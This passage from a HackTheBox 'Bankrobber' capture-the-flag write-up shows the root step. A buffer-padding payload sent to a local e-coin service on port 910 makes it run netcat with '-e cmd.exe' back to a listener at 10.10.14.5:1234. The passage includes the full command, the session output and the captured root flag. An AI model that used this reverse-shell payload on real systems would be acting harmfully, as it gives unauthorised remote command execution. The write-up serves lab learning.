 Now, with a `nc` listening waiting, I’ll submit it:

```bash
nc -lvp 1234
```

```bash
nc localhost 910
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\Users\Cortin\AppData\Local\Temp\n.exe -e cmd.exe 10.10.14.5 1234
```

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Bankrobber]
└─$ nc localhost 910                                                                                
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\Users\Cortin\AppData\Local\Temp\n.exe -e cmd.exe 10.10.14.5 1234
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\Users\Cortin\AppData\Local\Temp\n.exe -e cmd.exe 10.10.14.5 1234 using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: \Users\Cortin\AppData\Local\Temp\n.exe -e cmd.exe 10.10.14.5 1234

 [$] Transaction in progress, you can safely disconnect...

```

Excellent! we will get the root shell.

```cmd
whoami
type C:\Users\admin\Desktop\root.txt
```

```bash
# root flag
aa65d8e6216585ea636eb07d4a59b197
```

![[Bankrobber-33.png]]


